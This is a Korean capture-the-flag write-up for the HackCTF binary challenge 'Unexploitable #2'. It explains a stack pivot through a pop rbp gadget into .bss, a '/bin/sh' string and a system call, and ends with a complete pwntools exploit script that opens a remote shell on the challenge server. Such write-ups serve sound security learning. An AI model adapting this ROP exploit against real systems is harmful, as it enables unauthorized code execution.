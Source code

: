 ```yaml
---
layout: post
title:  "HacCTF Unexploitable #2 write-up"
date:   2020-03-17 19:45:55
image:  hackctf_unex2.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


# [HackCTF] Unexploitable #2

Date: Feb 03, 2020
Tags: report


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled.png)

NX 비트가 걸려있다.


**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%201.png)

바이너리를 실행시켜보면 fflush가 없다! 라는 의미의 문자열이 출력되고 입력을 한번 받는다. 그리고 바로 종료가 된다


**3) 코드흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%202.png)

메인을 보면 매우 간단하다. 저번 " Unexploitable #2 " 문제와 매우 유사한데, 차이점은 fflush함수가 없다는 것이다. 저번 문제에서는 .Load 영역에 존재하는 fflush 문자열을 이용하여 간편하게 풀수가 있었다.

하지만 이번에는 fflush가 없으므로 다른 방법으로 풀어야 한다. 또한 gift 함수가 마찬가지로 존재한다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%203.png)



### 2. 접근방법

---

저번에 3가지의 방법으로 문제를 풀었었다. 이 중 한가지를 이용하여 문제를 해결하면 된다.

우선, pop rbp; ret 가젯이 존재한다면, rbp값을 변조하여 fget의 버퍼 주소를 바꿔치기 가능하다. 

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%204.png)

rbp-0x10 영역에 입력한 데이터를 저장하므로, 우리는 .bss 영역의 주소를 구한뒤, + 0x10을 하여 rbp값을 저장시키면 된다. 그다음 메인으로 다시 돌아가 gitf함수의 system 함수를 이용하면 된다.

여기서 그냥 바로 gift함수로 가면 rdi에 이상한 값이 들어가게 되므로 rdi값을 저장하는 라인 이후를 ret에 넣어야 한다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%205.png)

따라서 0x40067A 로 돌아가게 하면 된다.

정리를 해보면 다음의 시나리오를 통해 익스를 하면 된다.


- **시나리오**
    1. **ret를 pop rbp;ret 로 하여 fgets의 데이터 저장 변수를 바꿔치기 한다.**

        payload = ret(pop rbp;ret 주소) + (.bss주소+0x10) + (main+99 부분)

        sendline(payload)

    2.  **.bss영역에 /bin/sh를 저장한뒤 system함수 호출하기**
        - /bin/sh를 보내면 .bss 영역에 저장되는데 해당 영역 +0x10가 다음 ret위치이다.
        - 따라서 /bin/sh + 0x10에 pop rdi;ret 주소를 넣는다
        - 그다음 rdi에 .bss 주소가 들어가야 하므로 해당 bss 주소를 이어서 붙힌다
        - 그다음 ret를 gitf + 9 위치로 가게끔 한다

        payload =  "/bin/sh\x00" + 더미*0x10 + pop rdi;ret 주소 + .bss주소(rdi에 저장될) + (gift+9 ⇒ ret될 주소임)




### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    p=remote("ctf.j0n9hyun.xyz",3029)
    #p=process("./Unexploitable_2")
    #gdb.attach(p)
    
    pr=0x4005e0 # pop rbp;ret;
    prdi=0x400773 # pop rdi;ret;
    bss=0x601050+0x900
    main_99=0x4006EE
    p.recvuntil("\n")
    
    payload="A"*0x18
    payload+=p64(pr)
    payload+=p64(bss+0x10)
    payload+=p64(main_99)
    
    p.sendline(payload)
    payload2="/bin/sh\x00"
    payload2+="B"*0x10
    payload2+=p64(prdi)
    payload2+=p64(bss)
    payload2+=p64(0x40067F) #gift+9
    pause()
    p.sendline(payload2)
    p.interactive()



### 4. 몰랐던 개념

---

none